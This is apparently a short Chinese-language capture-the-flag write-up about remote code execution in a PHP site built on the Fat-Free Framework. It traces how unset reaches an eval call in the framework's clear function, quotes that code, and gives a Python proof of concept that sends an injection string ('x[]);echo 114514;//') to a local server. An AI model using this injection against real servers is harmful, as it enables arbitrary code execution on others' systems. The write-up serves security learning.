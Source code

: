 # 思路
	- 分析框架打RCE
- # 扫描
	- ```
	  /composer.json
	  /config.ini
	  /.gitignore
	  /readme.md
	  ```
	- 大概是用了[这个](https://fatfreeframework.com/3.8/getting-started)框架
- # 分析
	- F3框架中，unset的调用逻辑如下：`unset --> F3::__unset --> F3::offsetunset --> F3::clear`
	- clear函数中有这么几行，会将传入的JS风格的expression转换成PHP风格的，然后放进eval中执行
		- ```php
		  $val=preg_replace('/^(\$hive)/','$this->hive',
		                    $this->compile('@hive.'.$key, FALSE));
		  eval('unset('.$val.');');
		  ```
	- fuzz后可以写出这样的payload实现RCE
		- ```python
		  url = "http://127.0.0.1:8081"
		  
		  r = base_get(url, params = {
		      "a": "x[]);echo 114514;//"
		  })
		  print(r.text)
		  
		  ```
